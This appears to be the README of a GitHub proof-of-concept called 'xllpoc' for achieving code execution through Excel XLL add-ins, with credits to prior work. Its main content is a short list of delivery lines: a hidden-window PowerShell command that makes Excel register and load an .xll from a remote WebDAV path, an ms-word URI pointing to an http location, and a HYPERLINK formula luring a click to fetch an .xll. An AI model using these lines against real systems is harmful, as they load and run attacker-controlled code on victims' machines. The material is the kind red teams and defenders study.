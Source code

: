 # xllpoc
Code Exec via Excel

#Credit <br>
EdParcell: https://github.com/edparcell/HelloWorldXll <br>
MSDN: https://msdn.microsoft.com/en-us/library/office/bb687883.aspx <br> 
Ryan Hanson: https://gist.github.com/ryhanson/227229866af52e2d963cf941af135a52 <br>
Google Groups: https://groups.google.com/forum/#!msg/exceldna/d2ogsPkv6YM/NGnSrU9tmpMJ <br>
Many others

<br><br>
#<strong>interesting</strong> <br>
ms-word:nft|u|http://PATH  <br>
powershell -w hidden -c "IEX ((new-object -ComObject excel.application).RegisterXLL('\\webdavxll_poc.xll')"  <br>
=HYPERLINK("http://127.0.0.1/xll.xll", "CLICK"  <br>
